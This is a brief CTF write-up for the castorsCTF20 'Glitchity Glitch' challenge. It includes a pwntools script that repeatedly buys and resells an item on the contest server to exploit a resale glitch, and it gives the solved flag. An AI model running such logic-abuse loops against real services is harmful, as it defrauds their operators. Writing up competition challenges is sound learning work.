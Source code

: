 ```yaml
---
type: "post"
title: "castorsCTF20 - Glitchity Glitch"
author: "tozkoparan (Ahmed Selim Üzüm)"
tags: ["writeup", "coding", "castorsCTF20"]
---
```


<!--more-->
For getting the flag in this challenge we have to have lots of money. For this
we can buy VPN, then sell it and because of the glitch we can sell it again and again!
So let's write a script for earning money.

```python
from pwn import *

conn = remote("chals20.cybercastors.com", 14432)
print(conn.recvuntil("Choice:"))
conn.sendline("6")
print(conn.recvuntil("Choice:"))
for i in range(1020):
    conn.sendline("0")
    conn.recvuntil("Choice:")
    conn.sendline("1")
    conn.recvuntil("Choice:")
    print(i)
conn.interactive()
```

Flag: `castorsCTF{$imPl3_sTUph_3h?}`

